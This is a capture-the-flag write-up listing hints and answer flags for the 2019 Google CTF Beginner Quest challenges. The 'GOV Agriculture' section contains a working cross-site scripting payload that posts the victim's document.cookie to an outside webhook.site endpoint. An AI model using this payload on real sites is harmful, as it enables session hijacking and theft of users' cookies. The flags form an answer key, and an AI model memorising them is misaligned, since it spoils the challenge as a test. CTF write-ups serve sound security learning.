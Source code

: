 # 2019 Google CTF Beginner Quest

## Enter Space-Time Coordinates

**CTF{welcome_to_googlectf}**

## Ad

* Download the video and check frame by frame

The flag is *CTF{9e796ca74932912c216a1cd00c25c84fae00e139}**

## Home Computer

* Use autopsy and you will find it in no time

The flag is *CTF{congratsyoufoundmycreds}**

## Satellite

* Get the satellite name
* Read the instructions on docs
* Follow the instructions (decode through the application mentioned)

The flag is **CTF{4efcc72090af28fd33a2118985541f92e793477f}**

## GOV Agriculture

Takes quite a while

* use a webhook such as [this one](https://webhook.site/)
* use script such as the following:
```
<script>document.body.innerHTML += '<form id="dynForm" action="https://webhook.site/2a88c65e-0053-4421-aeea-f93bb949b02c" method="post"><input type="hidden" id="q"></form>';document.getElementById('q').value=document.cookie;document.getElementById("dynForm").submit();
</script>
```
* Get cookie by exploitting XSS

The flag is **CTF{8aaa2f34b392b415601804c2f5f0f24e}**

## STOP GAN (bof)

* `%s`

The flag is **CTF{Why_does_cauliflower_threaten_us}**

